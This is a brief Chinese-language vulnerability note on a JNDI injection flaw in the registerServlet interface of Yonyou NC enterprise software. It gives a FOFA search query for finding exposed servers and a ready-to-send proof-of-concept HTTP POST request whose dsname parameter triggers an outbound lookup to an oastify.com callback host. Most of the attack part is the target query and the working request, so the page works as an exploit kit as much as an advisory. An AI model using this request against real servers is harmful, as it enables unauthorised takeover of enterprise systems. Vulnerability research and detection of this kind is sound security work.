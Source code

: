 **fofa**

```
body="Client/Uclient/UClient.dmg"
```

**一、漏洞简述**

用友NC以“全球化集团管控、行业化解决方案、全程化电子商务、平台化应用集成”的管理业务理念而设计，采用J2EE架构和先进开放的集团级开发平台UAP，形成了集团管控8大领域15大行业68个细分行业的解决方案，是中国大企业集团管理信息化应用系统的首选。其接口registerServlet存在JNDI注入漏洞，攻击者可通过该漏洞获取服务器权限。

**二、漏洞检测poc**

```yaml
POST /portal/registerServlet HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

type=1&dsname=dns://123.x86pza1kqky3lej36r5c0yk2wt2kqbe0.oastify.com
```

